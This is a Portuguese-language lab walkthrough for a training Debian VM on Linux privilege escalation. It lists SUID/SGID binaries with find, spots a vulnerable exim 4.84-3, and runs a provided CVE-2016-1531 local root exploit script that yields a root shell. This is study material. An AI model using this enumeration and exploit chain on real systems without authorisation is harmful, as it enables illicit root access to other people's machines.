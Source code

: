 ```shell
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
Saída:

```shell
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

Observe que /usr/sbin/exim-4.84-3 aparece nos resultados. Pode-se tentar localizar algum exploit conhecido para esta versão do exim. Exploit-DB, Google e GitHub são bons lugares para pesquisar!

Uma exploração de escalonamento de privilégios local que corresponda exatamente a esta versão do exim deve estar disponível. Uma cópia pode ser encontrada na VM Debian em ***/home/user/tools/suid/exim/cve-2016-1531.sh***, pois a VM tem objetivo didático. Em um cenário real, seria necessário encontrar ou desenvolver um exploit e encontrar uma forma de enviar para o host alvo.

Para executar o exploit, execute:

```shell
/home/user/tools/suid/exim/cve-2016-1531.sh
```
Saída:

```shell
user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh
[ CVE-2016-1531 local root exploit
sh-4.1# 
```
